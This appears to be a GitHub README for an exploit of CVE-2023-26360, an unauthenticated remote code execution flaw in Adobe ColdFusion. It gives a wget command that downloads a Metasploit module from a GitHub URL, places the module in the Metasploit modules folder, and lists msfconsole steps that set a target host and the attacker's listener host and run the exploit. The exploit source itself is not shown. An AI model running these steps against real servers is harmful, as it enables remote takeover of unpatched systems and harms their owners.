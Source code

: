 # CVE-2023-26360
Adobe ColdFusion Unauthenticated Remote Code Execution Exploit  

## Install
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Adobe_Cold_Fusion_CVE-2023-26360/adobe_coldfusion_rce_cve_2023_26360.rb
```
```
cp adobe_coldfusion_rce_cve_2023_26360.rb /usr/share/metasploit-framework/modules/exploits/multi/http/
```
## Usage
```
msfdb reinit; msfconsole -q
```
```
msf6 > use exploit/multi/http/adobe_coldfusion_rce_cve_2023_26360.rb
```
```
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set rhosts target_IP
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set lhost attacker_IP
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > run
```
